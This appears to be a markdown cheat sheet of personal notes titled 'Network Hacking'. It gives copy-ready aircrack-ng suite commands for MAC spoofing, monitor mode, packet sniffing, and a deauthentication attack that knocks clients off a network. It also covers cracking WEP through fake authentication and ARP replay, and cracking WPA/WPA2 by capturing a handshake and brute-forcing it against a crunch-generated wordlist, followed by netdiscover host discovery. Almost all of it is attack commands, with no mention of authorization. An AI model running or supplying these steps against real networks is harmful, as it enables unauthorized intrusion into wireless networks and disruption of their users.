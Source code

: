 # Network Hacking

* To list all network interfaces available, we can use `ifconfig`. The MAC address can be viewed under _ether_ in _wlan0_ and the IP can be viewed under _inet_ in _eth0_.

* To change the MAC address:

```shell
ifconfig wlan0 down #disables wlan0

ifconfig wlan0 hw ether 00:11:22:33:44:55 #sets hardware address of wlan0

ifconfig wlan0 up #enables wlan0
```

* To list only wireless interfaces, we can use `iwconfig`.

* To change _wlan0_ to monitor mode:

```shell
ifconfig wlan0 down

airmon-ng check kill #optional; kills any process that disturb interface in monitor mode

iwconfig wlan0 mode monitor #changes wlan0 mode to monitor

ifconfig wlan0 up
```

---

* To sniff packets, we can use _airodump-ng_:

```shell
airodump-ng wlan0 #here, wlan0 must be in monitor mode in order to fetch details
```

* To sniff packets on particular wifi bands:

```shell
airodump-ng --band a wlan0 #captures all networks with 5 GHz band

airodump-ng --band abg wlan0 #captures 2.5 GHz and 5 GHz networks at the same time
```

* To do targeted packet sniffing:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write testfile wlan0 #captures a particular network with given bssid and channel number, then it saves data to a file called testfile
#this will also show the devices connected to network
```

* To run a deauthentication attack, which can disconnect any client from any network:

```shell
aireplay-ng --deauth 100000000 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#here, aireplay-ng is the program name, followed by the deauth attack specifications including the MAC address of target router (-a) and MAC address of target client (-c)
```

---

* WEP(Wired Equivalent Privacy) can be cracked using two tools: _airodump-ng_ and _aircrack-ng_.

* To crack into a busy WEP network:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write wep_test wlan0
#capturing data packets from WEP network and writing it into a file

aircrack-ng wep_test-01.cap
#analyze captured data, cracks the key and prints it
```

* To crack into a non-busy WEP network, we need to do a fake authentication attack:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 11 --write arpreplay wlan0

aireplay-ng --fakeauth 0 -a 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#to associate with network; uses aireplay-ng tool to run a fake authentication attack on given MAC address access point (-a) and by wireless adapter having monitor mode(-h).

aireplay-ng --arpreplay -b 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#ARP request replay; forces access point to generate new IVs

aircrack-ng arpreplay-01.cap
```

---

* To crack WPA/WPA2:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 3 --write wpa-handshake wlan0
#capture handshake (when client joins network)
#deauth attack can be done in parallel to capture handshake
aireplay-ng --deauth 4 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#After this handshake is captured and stored in file

crunch 6 8 ria258 -o trial-wordlist.txt
#wordlist created using crunch with specifics

aircrack-ng wpa-handshake-01.cap -w trial-wordlist.txt
```

---

* For devices connected on same network:

```shell
netdiscover -r 10.0.2.1/24 #search devices on same subnet as Kali

netdiscover -c 10 -r 10.0.2.1/24 -i eth0 #increases no. of packets
```

* zenmap (GUI for nmap) can be used to gather more data about devices within subnet range.

---
